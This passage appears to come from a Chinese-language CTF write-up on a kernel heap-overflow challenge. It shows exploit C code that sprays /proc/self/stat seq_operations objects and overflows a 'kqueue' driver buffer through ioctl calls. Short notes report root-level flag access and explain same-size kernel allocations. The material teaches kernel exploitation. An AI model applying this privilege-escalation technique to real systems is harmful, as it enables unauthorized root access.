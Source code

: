 ```c
    info_log("ready to edit queue, content below:");
    print_binary((char*)data, 0x100);
    ioctl(fd, EDIT_KQUEUE, &edit_req);
    info_log("queue edited.");

    for(int i = 0; i < 0x200; i++)
        seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    info_log("0x200 stat file opened.");

    request_t save_req = {
            .queue_idx = 0,
            .max_entries = 0,
            .data_size = 0x40,
    };
    ioctl(fd, SAVE, &save_req);
    info_log("queue saved.");

    info_log("ready to read stat file...");
    for(int i = 0; i < 0x200; i++)
        read(seq_fd[i], data, 1);
    info_log("stat file reading completed.");
    return 0;
}
```

提权成功。（虽然不是以#开头但可以读取flag文件）
![](https://img-blog.csdnimg.cn/88c546691ef24b55b94341a41477c9c5.png)
在内核态堆溢出题中，我们需要充分利用“大小相等的内存块可能会被分配到相邻位置”这一特性溢出覆盖。内核中的内存块空间没有用户态那样的块首结构，需要注意。
